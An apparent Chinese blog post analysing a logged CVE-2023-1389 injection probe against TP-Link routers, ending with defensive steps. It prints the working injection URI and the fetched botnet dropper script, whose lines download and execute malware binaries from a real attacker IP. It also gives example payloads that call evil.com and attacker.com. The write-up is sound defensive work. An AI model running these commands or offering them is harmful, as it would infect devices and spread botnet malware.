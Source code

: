 ```yaml
---
title: 记一次应用被注入攻击 2025-06-11
icon: pen-to-square
date: 2025-06-11
order: 1
author: Rain Man
category:
  - 网络安全
# A page can have multiple tags
tag:
  - CVE-2023-1389
# this page is sticky in article list
sticky: true
# this page will appear in starred articles
star: true
---
```


[[TOC]]

# 记一次应用被注入攻击 2025-06-11

## 背景

今天在查看应用日志时偶然发现一段可疑的日志，内容如下
```text
Note: further occurrences of HTTP request parsing errors will be logged at DEBUG level. 
java.lang.IllegalArgumentException: Invalid character found in the request target [/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://31.59.40.187/x/tplink+-O-|sh) ]. The valid characters are defined in RFC 7230 and RFC 3986
	at org.apache.coyote.http11.Http11InputBuffer.parseRequestLine(Http11InputBuffer.java:484)
	at org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:270)
	at org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:63)
	at org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:905)
	at org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1743)
	at org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:52)
	at org.apache.tomcat.util.threads.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1190)
	at org.apache.tomcat.util.threads.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:659)
	at org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:63)
	at java.base/java.lang.Thread.run(Thread.java:1583)
```
这引起了我的高度警觉，因为请求中包含明显的命令注入尝试。

```shell
$(wget+http://31.59.40.187/x/tplink+-O-|sh)
```
::: danger
请不要在自己的设备上执行此命令
:::

由于我的应用使用的Tomcat，其在解析 HTTP 请求行时发现非法字符（如 ;, |, $, + 等），违反了 HTTP 协议（RFC 7230、RFC 3986）；

因此 Tomcat 拒绝处理该请求，并没有执行任何命令，应用是安全的，但说明应用正在被扫描/探测。

## 分析

攻击的 URI 为：
```text
[/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://31.59.40.187/x/tplink+-O-|sh) ]
```
其中`;`的用法之前没有见过，查了一下，发现是嵌入式设备和老式Web框架中支持的一种合法参数传递方式。

`stok` 是 TP-Link 和 OpenWRT（LuCI）设备中经常用来表示 “session token” 的字段。

关于`country=$(wget+http://31.59.40.187/x/tplink+-O-|sh)`
如果服务器存在漏洞，例如：
```shell
uci set system.@system[0].country="$country"
```
或者直接执行
```shell
eval "uci set system.@system[0].country=$country"

```
那这时：
```shell
$country = $(wget http://... | sh)
```
就会导致真正执行：
```shell
wget http://31.59.40.187/x/tplink -O - | sh
```
这就相当于远程下载并执行恶意脚本。


随后我获取了 `http://31.59.40.187/x/tplink` 内容。

```shell
# TP-Link is aware of reports that the Remote Code Execution (REC) vulnerability detailed in CVE-2023-1389 in AX21 has been added to the Mirai botnet Arsenal.


cd /tmp; wget http://31.59.40.187/j/mle1; chmod 777 mle1; ./mle1 tplink; rm mle1
cd /tmp; wget http://31.59.40.187/j/mbe1; chmod 777 mbe1; ./mbe1 tplink; rm mbe1
cd /tmp; wget http://31.59.40.187/j/aale1; chmod 777 aale1; ./aale1 tplink; rm aale1
cd /tmp; wget http://31.59.40.187/j/a5le1; chmod 777 a5le1;./a5le1 tplink; rm a5le1
cd /tmp; wget http://31.59.40.187/j/a7le1; chmod 777 a7le1; ./a7le1 tplink; rm a7le1
cd /tmp; wget http://31.59.40.187/j/ppc1; chmod 777 ppc1; ./ppc1 tplink; rm ppc1
cd /tmp; wget http://31.59.40.187/j/xle1; chmod 777 xle1; ./xle1 tplink; rm xle1
cd /tmp; wget http://31.59.40.187/j/xale1; chmod 777 xale1; ./xale1 tplink; rm xale1

#cd /tmp; tftp -g -r mle1 31.59.40.187; chmod 777 mle1; ./mle1 tplink; rm mle1
#cd /tmp; tftp -g -r mbe1 31.59.40.187; chmod 777 mbe1; ./mbe1 tplink; rm mbe1
#cd /tmp; tftp -g -r aale1 31.59.40.187; chmod 777 aale1; ./aale1 tplink; rm aale1
#cd /tmp; tftp -g -r a5le1 31.59.40.187; chmod 777 a5le1;./a5le1 tplink; rm a5le1
#cd /tmp; tftp -g -r a7le1 31.59.40.187; chmod 777 a7le1; ./a7le1 tplink; rm a7le1
#cd /tmp; tftp -g -r ppc1 31.59.40.187; chmod 777 ppc1; ./ppc1 tplink; rm ppc1
#cd /tmp; tftp -g -r xle1 31.59.40.187; chmod 777 xle1; ./xle1 tplink; rm xle1
#cd /tmp; tftp -g -r xale1 31.59.40.187; chmod 777 xale1; ./xale1 tplink; rm xale1

cd /tmp; ftpget 31.59.40.187 mle1 mle1; chmod 777 mle1; ./mle1 tplink; rm mle1
cd /tmp; ftpget 31.59.40.187 mbe1 mbe1; chmod 777 mbe1; ./mbe1 tplink; rm mbe1
cd /tmp; ftpget 31.59.40.187 aale1 aale1; chmod 777 aale1; ./aale1 tplink; rm aale1
cd /tmp; ftpget 31.59.40.187 a5le1 a5le1; chmod 777 a5le1;./a5le1 tplink; rm a5le1
cd /tmp; ftpget 31.59.40.187 a7le1 a7le1; chmod 777 a7le1; ./a7le1 tplink; rm a7le1
cd /tmp; ftpget 31.59.40.187 ppc1 ppc1; chmod 777 ppc1; ./ppc1 tplink; rm ppc1
cd /tmp; ftpget 31.59.40.187 xle1 xle1; chmod 777 xle1; ./xle1 tplink; rm xle1
cd /tmp; ftpget 31.59.40.187 xale1 xale1; chmod 777 xale1; ./xale1 tplink; rm xale1
```

该脚本重复执行了如下逻辑：
```shell
cd /tmp
wget http://31.59.40.187/j/mle1
chmod 777 mle1
./mle1 tplink
rm mle1
```

`mle1、mbe1、aale1、a5le1、a7le1、ppc1、xle1、xale1` 这些文件名可能代表了不同的CPU架构构建的同一恶意程序副本，是为不同嵌入式设备或服务器环境准备的，确保尽可能多地感染目标设备。


上面的注释表明了这是就是一个*RCE攻击*，并且附带了漏洞信息*CVE-2023-1389*。

::: details RCE攻击介绍

RCE（Remote Code Execution，远程代码执行）攻击是一种攻击者可以在受害者设备或系统上远程执行任意代码的攻击方式。RCE 是最严重的网络安全漏洞之一，通常意味着：

>攻击者只需要发送特制请求，就能控制目标服务器、设备或操作系统的行为。

**RCE 攻击模式常见类型**

1. 命令注入（Command Injection）
   通过用户输入拼接 Shell 命令时未正确转义，导致攻击者输入的命令被直接执行，例如：
   ```http request
   GET /api?name=abc;wget http://evil.com/shell.sh|sh HTTP/1.1
   ```

2. 反序列化漏洞（Insecure Deserialization）
   反序列化用户输入的对象，攻击者构造恶意 payload 触发执行逻辑，例如：
   ```java
   ObjectInputStream.readObject();  // 读取了攻击者发送的恶意对象
   ```

3. 模板注入（Template Injection）
   模板引擎允许执行脚本时，攻击者通过注入表达式触发任意代码执行，例如：
   ```http request
   ${new java.lang.ProcessBuilder("calc").start()}
   ```
4. 路径遍历+上传 WebShell
   攻击者上传恶意脚本（如 .php 文件），并通过路径遍历等手段访问执行。

5. 远程加载执行
   服务端代码允许从远程 URL 加载脚本并执行，例如：
   ```shell
   wget http://attacker.com/x.sh | sh
   ```

:::

在nvd网站上搜索该漏洞，发现这是一个只存在指定TP-Link固件版本上的漏洞。

>**TP-Link Archer AX21 (AX1800) firmware versions before 1.1.4 Build 20230219** contained a command injection vulnerability in the country form of the /cgi-bin/luci;stok=/locale endpoint on the web management interface.
Specifically, the country parameter of the write operation was not sanitized before being used in a call to popen(), allowing an unauthenticated attacker to inject commands, which would be run as root, with a simple POST request.

## 应对措施
虽然自己的服务器不存在此漏洞，但是为了防止其他RCE攻击，还是需要一些安全检查和防御措施。

1. 将不明IP加入黑名单
2. 检查所有开放端口，只开放必要的端口
3. 更新系统安全补丁
4. 查看是否有定时任务/进程异常
```shell
crontab -l
ps | grep -v '\[' | grep -v 'root'
```

## 后记

写到这里突然想到家中的宽带是通过OpenWRT路由进行拨号的，并且是通过光猫的桥接模式连接的，似乎是暴漏在公网上，也有着被恶意脚本扫描和攻击的风险，需要检查一下防火墙规则。
这种网络连接方式已经用了两三年了而且没有更新过路由的固件，如果真被恶意脚本攻击了，家中的所有设备包括NAS，不敢想象。
